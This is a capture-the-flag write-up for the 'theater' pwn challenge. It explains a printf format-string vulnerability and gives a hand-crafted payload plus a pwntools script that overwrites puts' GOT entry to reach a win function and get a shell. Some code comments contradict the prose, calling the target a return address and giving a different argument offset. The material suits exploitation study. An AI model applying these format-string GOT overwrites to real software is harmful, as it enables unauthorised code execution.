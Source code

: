 # theater Writeup

## Challenge infos

```text
I really like going to the movies, what's your favourite?
Challenge is running at: nc pwnable.co.il 9011
```

## Executable analysis
### checksec output
```text
        Arch:       amd64-64-little
        RELRO:      🟡 Partial RELRO
        Stack:      🟢 Canary found
        NX:         🟢 NX enabled
        PIE:        🔴 No PIE (0x400000)
        SHSTK:      🟢 Enabled
        IBT:        🟢 Enabled
        Stripped:   🔴 No
```
* as we can see, the binary is not PIE, but very secure, it has a canary, NX bit is enabled, SHSTK is enabled, and IBT is enabled.
* this means that we know the address of all symbols in the binary.
### main disassembly
```asm
   0x000000000040132d <+0>:     endbr64
   0x0000000000401331 <+4>:     push   rbp
   0x0000000000401332 <+5>:     mov    rbp,rsp
   0x0000000000401335 <+8>:     sub    rsp,0x110
   0x000000000040133c <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000401345 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401349 <+28>:    xor    eax,eax
   0x000000000040134b <+30>:    mov    eax,0x0
   0x0000000000401350 <+35>:    call   0x401296 <init_buffering>
   0x0000000000401355 <+40>:    lea    rdi,[rip+0xcb4]        # 0x402010
   0x000000000040135c <+47>:    mov    eax,0x0
   0x0000000000401361 <+52>:    call   0x401130 <printf@plt>
   0x0000000000401366 <+57>:    lea    rax,[rbp-0x110]
   0x000000000040136d <+64>:    mov    edx,0x100
   0x0000000000401372 <+69>:    mov    rsi,rax
   0x0000000000401375 <+72>:    mov    edi,0x0
   0x000000000040137a <+77>:    call   0x401150 <read@plt>
   0x000000000040137f <+82>:    lea    rdi,[rip+0xca8]        # 0x40202e
   0x0000000000401386 <+89>:    call   0x401100 <puts@plt>
   0x000000000040138b <+94>:    lea    rax,[rbp-0x110]
   0x0000000000401392 <+101>:   mov    rdi,rax
   0x0000000000401395 <+104>:   mov    eax,0x0
   0x000000000040139a <+109>:   call   0x401130 <printf@plt>
   0x000000000040139f <+114>:   lea    rdi,[rip+0xc94]        # 0x40203a
   0x00000000004013a6 <+121>:   call   0x401100 <puts@plt>
    ...
```
* the main function asks for a movie name, reads it from the user, and then prints it back.
* we can see that the buffer is passed as the first argument to the `printf` function, which means that it is valueable to formated string attack.

### formated string attack
* when the user has control over the format string, they can read from the stack and even write to it.
* because of the `%n` format specifier, which writes the number of bytes written so far to the address pointed to by the next argument.
* but what will we write? lets look for symbols in the binary:
```text
Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010f0  putchar@plt
0x0000000000401100  puts@plt
0x0000000000401110  __stack_chk_fail@plt
0x0000000000401120  system@plt
0x0000000000401130  printf@plt
0x0000000000401140  alarm@plt
0x0000000000401150  read@plt
0x0000000000401160  srand@plt
0x0000000000401170  time@plt
0x0000000000401180  setvbuf@plt
0x0000000000401190  sleep@plt
0x00000000004011a0  rand@plt
0x00000000004011b0  _start
0x00000000004011e0  _dl_relocate_static_pie
0x00000000004011f0  deregister_tm_clones
0x0000000000401220  register_tm_clones
0x0000000000401260  __do_global_dtors_aux
0x0000000000401290  frame_dummy
0x0000000000401296  init_buffering
0x0000000000401316  win
0x000000000040132d  main
0x0000000000401470  __libc_csu_init
0x00000000004014e0  __libc_csu_fini
0x00000000004014e8  _fini
```
* we can see that the binary has a function called `win`. also the puts@plt is a good candidate for a format string attack, as it is used right after the printf function.
* so we will overwrite the got entery of `puts` with the address of the `win` function' so that after the `printf` function is called, the program will jump to the `win` function instead of the `puts` function.
* the payload will look like this:
```text
%4886c%9$lln%42c%10$hhna @@\x00\x00\x00\x00\x00"@@\x00\x00\x00\x00\x00
```
1. `%4886c` will print 4886 (0x1316) bytes, which is the lower bytes of the address of the `win` function.
2. `%9$lln` will write the number of bytes written so far to the address of the 9th argument, which is the address of the `puts` got entry.
3. `%42c` will print 42 bytes, now 0x1340 bytes have been printed.
4. `%10$hhna` will write the lower byte of number of bytes written so far (0x40) to the address of the 10th argument, which is the address of the `puts` got entry + 2.
5. ` @@\x00\x00\x00\x00\x00` will be the address of the `puts` got entry, which is 0x404020.
6. `"@@\x00\x00\x00\x00\x00` will be the address of the `puts` got entry + 2, which is 0x404022.

### why 9th and 10th arguments?
* the c call convention used by the binary is the System V AMD64 ABI, which means that the first six arguments are passed in registers, and the rest are passed on the stack.
* the arguments on the stack are pushed in reverse order, so the first argument is at the top of the stack.
* because our payload is save to a buffer at the top of the stack, is is actually the first (%rdi) and seventh 
(no the stack) arguments. and because on `payload` + 24/32  we save the address of the `puts` got entry, they are the 9th and 10th arguments.

### exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template theater
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'theater')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwnable.co.il', 9011, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()
win_addr = exe.sym['win']
puts_addr = exe.got['puts']
payload = fmtstr_payload(
    6,  # The first 5 arguments are registers, the 6th is on the stack (the payload string)
    {
        puts_addr: win_addr,  # Overwrite puts with win address
    },
    write_size='short'  # Use short writes to avoid overwriting other data
)
# The payload is crafted to overwrite the return address of the function
# that calls puts, redirecting it to win.
io.sendlineafter(b'your favourite movie? ', payload)

io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9011: Done
[*] Switching to interactive mode
You chose: 
$ cat flag
PWNIL{flag_is_here}
```